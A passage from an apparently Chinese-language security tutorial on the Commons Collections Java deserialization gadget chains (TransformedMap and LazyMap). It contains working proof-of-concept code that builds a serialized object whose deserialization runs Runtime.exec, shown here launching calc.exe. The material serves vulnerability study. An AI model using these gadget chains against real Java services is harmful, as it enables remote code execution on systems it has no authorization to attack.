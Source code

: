 ```
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class,outmap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        os.writeObject(instance);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("ser.bin"));
        fos.readObject();
    }
}
```

![image-20211201233209350](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211201233209350.png)

这个POC只有在Java 8u71以前的版本中才能执行成功，Java 8u71以后的版本由于`sun.reflect.annotation.AnnotationInvocationHandler`发⽣了变化导致不再可⽤；

在ysoserial里面用的是另外一条链

![image-20211214091500383](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211214091500383.png)

# LazyMap链

## 漏洞分析

从上面的调用链可以看到,在后半段的transform方法并没有变,而是调用transform方法的地方不再是transformedMap,而是LazyMap类

前半部分和TransforedMap链一样

```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime", null
        }
        ),
        new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{
                null, null
        }
        ),
        new InvokerTransformer("exec", new Class[]{
                String.class}, new Object[]{
                "calc.exe"
        }
        )
};
ChainedTransformer chain = new ChainedTransformer(transformers);
chain.transform(null);
```

